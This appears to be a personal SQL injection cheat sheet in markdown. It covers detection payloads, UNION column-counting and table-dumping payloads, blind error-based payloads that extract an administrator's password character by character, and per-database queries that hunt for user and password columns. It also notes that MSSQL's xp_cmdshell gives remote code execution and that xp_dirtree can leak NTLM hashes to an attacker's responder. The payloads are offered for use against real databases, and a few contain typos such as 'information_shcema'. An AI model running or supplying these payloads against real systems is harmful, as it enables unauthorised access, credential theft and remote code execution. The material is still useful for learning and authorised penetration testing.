 # Entry point
if data is returned in the response, and it is unchanged after appending one of these payloads (or an error is returned) - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 --
; -- 
' --
'; -- 
" --
"; -- 
 /*
' /*
'; /* 
" /*
"; /* 
```
MySQL
```
 #
; # 
' #
'; # 
" #
"; # 
```
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until data is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.

```diff
SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id="
- 1" UNION SELECT 1,GROUP_CONCAT(table_name SEPARATOR "<br>") ,3 FROM information_schema.tables /*
"
```

### stacked queries
```diff
SELECT * FROM users WHERE id='
-1'||'SELECT * FROM dual
'
```

# Version enumeration
```
SELECT version() # PostgreSQL / MySQL / MariaDB
SELECT @@version -- MSSQL + # MySQL
SELECT sqlite_version() /* SQLite
SELECT banner FROM v$version -- Oracle
SELECT version FROM v$instance -- Oracle
```
# Blind
if data is not directly returned in the response, we can trigger conditional errors or time delays, using stacked queries, concatenated strings and union attacks:
```
' UNION SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE ' ' END FROM users WHERE username='administrator'-- -
' UNION SELECT CASE WHEN SUBSTR(password,§1§,1)='§char§' THEN TO_CHAR(1/0) ELSE ' ' END FROM users WHERE username='administrator'-- - cluster bomb with number list and bruteforcer
```

# Data exfiltration
some of the queries I like to run in order to enumerate the databse further are:

Oracle
```
SELECT DISTINCT owner FROM all_tables; -- list databases
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ser%'; /* lists columns like User, username and user */
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ass%'; -- same but for pass or Password
```
MSSQL
```
SELECT name FROM master.sys.databases;
SELECT t.name AS table_name, c.name AS column_name FROM sys.tables t JOIN sys.columns c ON t.object_id = c.object_id WHERE c.name LIKE '%ass%'; 
```
PostgreSQL
```
SELECT datname FROM pg_database;
SELECT table_name, column_name FROM information_schema.columns WHERE column_name LIKE '%ass%';
```
MySQL
```
SELECT table_name FROM information_shcema.tables WHERE table_schema NOT IN ('mysql','information_schema','performance_schema'); # list all non default table names
```
# Tricks
MSSQL can run system stored procedures such as xp_cmdshell which can be abused to move laterally.
xp_cmdshell -> direct RCE
xp_dirtree -> lists the contents of a folder. can be run against an attacker responder to get service user NTLM.

